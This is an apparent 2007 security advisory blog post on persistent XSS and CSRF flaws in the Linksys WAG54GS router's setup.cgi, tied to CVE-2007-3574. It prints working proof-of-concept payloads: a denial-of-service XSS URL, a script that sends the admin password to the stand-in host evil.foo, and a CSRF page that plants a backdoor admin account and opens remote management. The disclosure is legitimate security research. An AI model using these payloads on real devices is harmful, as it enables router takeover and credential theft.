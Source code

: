 ```yaml
---
title: Persistent XSS and CSRF on Wireless-G ADSL Gateway with SpeedBooster (WAG54GS)
author: adrian-pastor
date: Tue, 20 Nov 2007 20:51:16 GMT
template: this/views/post.jade
---
```


I really think that web interfaces are the _low-hanging fruit_ of embedded devices. Sure classic attacks such as predictable SNMP community strings, exposed TFTP services and buffer overflows still apply. However, by exploiting the web interface we can steal the data we want, we can enable remote access to the compromised router, we own the victim's connection. In short, bugs on the web interface gives us all we need! Anyway, enough talking! The following are some of the issues I found on the Cisco Linksys WAG54GS.

The following vulns were found on 24 June 2007 and were tested against firmware V1.00.06. The specific persistent XSS holes mentioned in this advisory were fixed by Cisco on firmware version V1.01.03. However, there are still several other persistent XSS plus the system-wide CSRF in the latest firmware. [CVE-2007-3574](http://nvd.nist.gov/nvd.cfm?cvename=CVE-2007-3574) has been assigned to these issues. Thanks a lot to Cisco for being so great when dealing with my emails! Credits also go to pdp for providing feedback, ideas and allowing me to play with his spare [WAG54GS](http://snipurl.com/1txmt) router.

By the way, part of this advisory got leaked some time ago on FD, but I am publishing it as a formal release with additional information including a password leak which can be combined with any of the persistent XSS holes found (keep reading for more info on this).

### Description

There are several persistent XSS vulnerabilities on the `/setup.cgi` script. It is possible to inject JavaScript by assigning a payload like the following to any of the vulnerable parameters:

    ><script>[PAYLOAD]</script>

    The vulnerable (non-sanitized) parameters are the following: `devname`, `snmp_getcomm`, `snmp_setcomm`, `c4_trap_ip_`. Additionally, all HTTP requests are not tokenized with random values. Thus, all requests to the router's HTTP interface are vulnerable to Cross-site Request Forgeries (CSRF), perhaps by design. The following is an example of a HTTP request (notice the lack of non-predictable tokens):

    POST /setup.cgi HTTP/1.1
    Authorization: Basic YWRtaW46YWRtaW4=

    mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    Although the original request is a POST, we can convert it to a GET, so that all posted parameters can be submitted on a single URL. For example, the previous POST request can be converted to a URL such as the following:

    http://admin:admin@192.168.1.1/setup.cgi?mtenRestore=Restore+Factory+Defaults&todo=defaultsettings&this_file=Factorydefaults.htm&next_file=index.htm&message=

    By forging administrative requests (Administration button on the router's HTML menu), an attacker can compromise the router provided the victim user visits a malicious URL or HTML page. The attack can only be successful if the administrator hasn't changed the default credentials (admin/admin) or the administrator's browser has an active authentication session with the router's interface when the attack happens (highly unlikely)

    ### Persistent XSS PoC

    The following URL creates a DoS condition by making the Administration page inaccessible since `history.back()` will run every time the Administration page is visited. Thus the administrator won't be able to ever change the default credentials unless a hard reset is performed by using the router's physical "restart" switch:

    http://admin:admin@192.168.1.1/setup.cgi?user_list=1&sysname=admin&sysPasswd=admin&sysConfirmPasswd=admin&remote_management=enable&http_wanport=8080&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=1&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=">history.back()&h_snmp_enable=enable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=

    Note that he administration page (`/setup.cgi?next_file=Administration.htm`) returns the admin password within the client-side HTML source code as a hidden field. i.e.:

    <input type="hidden" name="old_pwd" value="admin">

    Therefore, we could also inject a payload in our persistent XSS attack which accesses the admin password through the DOM object:

    document.administration.old_pwd.value

    ...and submits it to the attacker's site every time the page is accessed. That way, even if the victim admin changed the password, the attacker would receive the value of the new password! Here is an example payload:

    "><script>img=new Image();img.src='http://evil.foo/?last_pwd='+document.administration.old_pwd.value</script><a b="

    ### CSRF PoC

    The following HTML page does the following:

* adds an additional administrative account, with a username equals to 'attacker' and a password equals to 0wned (without removing original admin account!)
* enables remote HTTP management over port 1337
* sets other settings that are inrelevant to this discussion

    <html>
    <body>
    	<script>
    	// send 2 requests to add an administrative account and enable remote management
    	// tries with default credentials and with credentials cached by browser (if any)

    	var img = new Image();
    	var img2 = new Image();

    	img.src = 'http://admin:admin@192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	img2.src = 'http://192.168.1.1/setup.cgi?user_list=8&sysname=attacker&sysPasswd=0wned&sysConfirmPasswd=0wned&remote_management=enable&http_wanport=1337&devname=&snmp_enable=disable&upnp_enable=enable&wlan_enable=enable&save=Save+Settings&h_user_list=8&h_pwset=yes&pwchanged=yes&h_remote_management=enable&c4_trap_ip_=&h_snmp_enable=disable&h_upnp_enable=enable&h_wlan_enable=enable&todo=save&this_file=Administration.htm&next_file=Administration.htm&message=';
    	</script>
    </body>
    </html>

The first URL forges the administrative request using the default credentials, so it won't work if default credentials have been changed. The second URL doesn't specify any credentials as an attempt to use the browser's cached credentials. If the admin user has clicked on "Save password" on the basic authentication prompt, most browsers will prompt the user to confirm submitting the cached credentials. The only situation in which browsers won't ask the user to confirm submitting the credentials would be if the malicious CSRF page was visited while the browser has an active authenticated session with the router's HTTP interface (very unlikely).

### Additional notes

* router reboots after saving settings (requests sent to `setup.cgi`)
* all attacks were tested using Internet Explorer 7
